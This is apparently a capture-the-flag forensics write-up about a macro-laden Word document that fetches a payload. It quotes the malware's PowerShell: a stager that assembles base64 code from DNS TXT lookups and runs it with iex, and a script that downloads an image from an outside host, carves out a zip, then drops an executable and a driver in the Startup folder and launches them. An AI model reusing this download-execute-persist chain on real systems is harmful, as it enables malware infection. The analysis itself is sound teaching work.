





# Intended Solve
## Description
**Meet My Computer Wife Karen**

Mr. Krabs has noticed some weird pop-ups on his computer recently, and he wants you to take a look.

He's particularly worried because Plankton hasn't tried to steal the Krabby patty secret formula for a while. Has he found another way in? 

## Part 1
Go through AD1 image, find a Word document with macros enabled in the Documents directory.  Open it and look for macros.  Find the following macro:



Reverse flagpart.  I typically just recode short vbs scripts like this into Python, like the following:

```python
def xorFun(data):
    byte = 0x7F
    for i in range(len(data)):
        data[i] ^= byte
        byte = (byte + 5) ^ 105
    return data

print(bytes(xorFun(bytearray([42,160,218,154,244,190,212,137,152,130,186,138]))).decode())
```
This prints part 1 of the flag:
```
UMASS{wH7_1s
```

## Part 2
There is a base64 encoded string being decoded and executed in Powershell as part of the above macro. Extracting the b64 encoded string and decoding it gives the following:
```powershell
$b64 = ""

for ($i=1;$i -le 7;$i++) {
    $temp = (nslookup -q=txt -timeout=3 $i'.americanvegtables.com')[-1] -replace '"','' -replace '\s',''
    $b64 += $temp
};

# _d0cM_57iLL_

iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64))))
```
As you can see, part 2 of the flag is in the comment.

## Part 3
The above script performs a DNS text record lookup for subdomains 1 - 7 of the domain name americanvegtables.com.  It then concatenates all of the text response portions of the record, treats them as a single base64 encoded string, then decodes them and executes the result.

The records are not available on the current americanvegtables.com site, but if we go to the Wireshark and filter by DNS text record lookups, we'll get the following:



If you look closer at a response to one of these queries, you'll see what appears to be base64 encoded data.



Pull all of the text records out of the packet capture then decode them, and you'll get the following powershell script:

```powershell
$downloadURL = "192.168.157.145:8080/money.png"
$content = Invoke-WebRequest $downloadURL

$re = New-Object System.Text.RegularExpressions.Regex("c4fc34f45386d4c98e26")
$stuff = [regex]::Split($content, $re)[1]
$zip = [System.Convert]::FromBase64String($stuff)

Set-Content "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip" -Value $zip -Encoding Byte

Expand-Archive -Path "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip" -DestinationPath "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"

Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip"

Start-Process "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\MoneyGrabber.exe" -NoNewWindow

pnputil.exe /add-driver "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\myDriver.inf" /install

sc.exe start myDriver

Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\myDriver.*"

# Write-Output "4_tH1nG_"
```

## Part 4
We know that the malicious script:
- Downloaded `money.png` from `192.168.157.145:8080`
- Split it along a predefined delimiter
- Base64 decoded the second part of the image
- Unzipped the Base64 part

First go to the packet capture, then find the image download:



Right click on the request, follow the TCP stream, then extract the picture as raw.  You might have to trim it a bit to get the PNG to open, but eventually you'll get a picture that looks like the following:


A quick Python script will repeat the steps of the malicious Powershell script and extract the archive:

```python
from base64 import b64decode

with open('picture.png', 'rb') as fd:
    data = fd.read()

with open('implant.zip', 'wb') as fd:
    fd.write(b64decode(data[data.index(b"c4fc34f45386d4c98e26") + 20:].strip()))
```

Unzipping gets us the following:



The fourth part of the flag is in flag4.txt
```
UMASS{wH7_1s_d0cM_57iLL_4_tH1nG_1n_th3_y34r_2024??}
```